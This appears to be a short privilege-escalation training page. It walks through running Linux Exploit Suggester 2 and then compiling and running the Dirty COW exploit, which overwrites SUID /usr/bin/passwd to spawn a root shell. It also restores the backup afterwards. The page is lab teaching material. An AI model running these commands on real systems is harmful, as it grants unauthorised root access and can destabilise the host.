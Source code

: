 # Kernel Exploits

Kernel exploits can leave the system in an unstable state, which is why you should only run them as a last resort.

Run the **Linux Exploit Suggester 2** tool to identify potential kernel exploits on the current system:

`perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl`

The popular Linux kernel exploit "Dirty COW" should be listed. Exploit code for Dirty COW can be found at **/home/user/tools/kernel-exploits/dirtycow/c0w.c**. It replaces the SUID file /usr/bin/passwd with one that spawns a shell (a backup of /usr/bin/passwd is made at /tmp/bak).

Compile the code and run it (note that it may take several minutes to complete):

`gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w`\
`./c0w`

Once the exploit completes, run /usr/bin/passwd to gain a root shell:

`/usr/bin/passwd`

Remember to restore the original **/usr/bin/passwd** file and exit the root shell before continuing!

`mv /tmp/bak /usr/bin/passwd`\
`exit`

